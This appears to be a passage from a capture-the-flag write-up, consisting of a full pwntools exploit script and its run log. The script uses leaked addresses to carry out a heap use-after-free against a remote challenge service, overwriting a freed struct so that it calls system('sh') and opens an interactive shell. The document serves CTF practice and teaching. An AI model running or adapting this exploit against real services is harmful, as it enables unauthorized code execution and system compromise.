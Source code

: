 ## Exploit
```python
from pwn import *

# r = process('./chal')
r = remote('10.113.184.121', 10057)
context.arch = 'amd64'

def register(idx):
    r.recvuntil(b'choice: ')
    r.send(b'1')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())

def delete(idx):
    r.recvuntil(b'choice: ')
    r.send(b'2')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())

def set_name(idx, len, name):
    r.recvuntil(b'choice: ')
    r.send(b'3')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())
    r.recvuntil(b'Length: ')
    r.send(str(len).encode())
    r.recvuntil(b'Name: ')
    r.send(name)

def trigger_event(idx):
    r.recvuntil(b'choice: ')
    r.send(b'4')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())

# Fetch Info
r.recvuntil(b'gift1: ')
system_addr = int(r.recvline()[:-1], 16)
r.recvuntil(b'gift2: ')
heap_addr_leak = int(r.recvline()[:-1], 16)

log.info(f'System Address = {hex(system_addr)}')
log.info(f'Heap Address = {hex(heap_addr_leak)}')

# Exploit Payload
sh_addr = heap_addr_leak + 0x60
register(0)
register(1)
set_name(1, 0x10, b'sh\x00')
delete(0)
set_name(1, 0x18, p64(0) + p64(sh_addr) + p64(system_addr))

trigger_event(0)

r.interactive()
```
```bash
$ python exp.py
[+] Opening connection to 10.113.184.121 on port 10057: Done
[*] System Address = 0x7ff8cd719290
[*] Heap Address = 0x564243d7c2a0
[*] Switching to interactive mode
```